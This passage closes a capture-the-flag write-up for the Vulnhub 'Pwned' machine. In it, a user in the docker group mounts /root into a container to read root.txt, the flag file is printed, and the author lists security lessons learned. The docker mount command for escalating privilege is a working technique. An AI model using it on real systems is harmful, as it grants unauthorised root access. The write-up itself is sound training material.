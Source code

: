 ```sh
selena@pwned:~$ docker run -v /root:/mnt -it 09ae39f0f8fc ls -la /mnt/root.txt
```

```sh
-rw-r--r-- 1 root root 429 Jul 10 06:41 /mnt/root.txt
```

Opened the /mnt/root.txt file using the following command.

```sh
selena@pwned:~$ docker run -v /root:/mnt -it 09ae39f0f8fc cat /mnt/root.txt
```

Below is the output fro the command above.

```sh
4d4098d64e163d2726959455d046fd7c



You found me. i dont't expect this （◎ . ◎）

I am Ajay (Annlynn) i hacked your server left and this for you.

I trapped Ariana and Selena to takeover your server :)


You Pwned the Pwned congratulations :)

share the screen shot or flags to given contact details for confirmation 

Telegram   https://t.me/joinchat/NGcyGxOl5slf7_Xt0kTr7g

Instgarm   ajs_walker 

Twitter    Ajs_walker 
```

## Conclusion
---

This was a fun challenge. I haven’t done a Vulnhub VM in a while. Took a little while to figure this out and publish. But, here we are. This machine tought me about a couple of really bad security practices. One shown below.

- Don’t add users to the docker group.

Things that I already knew.

- Don’t embed credentials in the comments of your website.
- Don’t host public ssh keys on on a publicly accessible FTP server.
